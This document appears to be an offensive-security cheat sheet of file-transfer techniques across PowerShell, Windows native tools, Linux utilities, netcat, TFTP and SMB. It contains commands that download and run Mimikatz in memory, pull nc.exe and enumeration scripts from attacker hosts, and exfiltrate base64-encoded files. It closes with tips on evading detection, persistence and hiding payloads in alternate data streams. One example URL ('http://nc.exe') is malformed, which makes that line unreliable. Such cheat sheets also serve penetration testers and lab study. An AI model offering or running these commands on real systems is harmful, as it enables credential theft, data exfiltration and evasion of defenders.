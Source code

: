 
### PowerShell Commands

1. **Download a File**
    
    ```powershell
    Invoke-WebRequest https://<snip>/PowerView.ps1 -OutFile PowerView.ps1
    ```
    
2. **Execute File in Memory**
    
    ```powershell
    IEX (New-Object Net.WebClient).DownloadString('https://<snip>/Invoke-Mimikatz.ps1')
    ```
    
3. **Upload a File**
    
    ```powershell
    Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64
    ```
    
4. **Download with Custom User-Agent**
    
    ```powershell
    Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe"
    ```
    
5. **Base64 Encoded Upload**
    
    ```powershell
    $bytes = [System.IO.File]::ReadAllBytes("C:\Temp\file.txt")
    $b64 = [System.Convert]::ToBase64String($bytes)
    Invoke-WebRequest -Uri http://10.10.10.32/upload -Method POST -Body $b64
    ```
    

### Windows Native Tools

6. **Bitsadmin (Deprecated but Still Useful)**
    
    ```powershell
    bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe
    ```
    
7. **Certutil (Native to Windows for Certificate Management)**
    
    ```powershell
    certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe
    ```
    

### Linux-Based Tools

8. **Wget**
    
    ```bash
    wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
    ```
    
9. **cURL**
    
    ```bash
    curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
    ```
    
10. **Python HTTP File Download**
    

```python
import requests
response = requests.get('http://10.10.10.32/nc.exe')
with open('nc.exe', 'wb') as file:
    file.write(response.content)
```

### Other Methods

11. **PHP File Download**

```php
php -r '$file = file_get_contents("https://<snip>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```

12. **SCP (Secure Copy Protocol) - Upload**
    
    ```bash
    scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip
    ```
    
13. **SCP - Download**
    
    ```bash
    scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe
    ```
    
14. **Netcat (Linux/Windows)** **Send File:**
    

```bash
nc -lvp 4444 > received_file
```

**Receive File:**

```bash
nc <attacker-ip> 4444 < file_to_send
```

15. **FTP Upload/Download (Interactive)**

```bash
ftp 10.10.10.32
```

16. **TFTP (Trivial File Transfer Protocol)** **Download:**

```bash
tftp -i 10.10.10.32 GET nc.exe
```

**Upload:**

```bash
tftp -i 10.10.10.32 PUT nc.exe
```

17. **SMB (Using SMBClient)**

```bash
smbclient \\10.10.10.32\share -U username
put file.txt
get file.txt
```

---

### Extra Tips

- **Bypass Restrictions:** Consider using alternative ports, URL encoding, or modifying headers to bypass security restrictions.
- **Evasion Techniques:** Use legitimate-looking User-Agents, filenames, or paths to evade detection.
- **Persistence:** Combine these methods with scheduled tasks or registry modifications for persistence.
- **File Obfuscation:** Encode files in Base64 to evade basic detection.
- **Alternate Data Streams (Windows):**
    
    ```powershell
    type nc.exe > file.txt:stream
    ```
    
- **Compression & Encryption:** Compress files using `zip` or `7z` with a password.

    ```bash
   7z a -psecret -mhe protected.7z file.txt
    ```

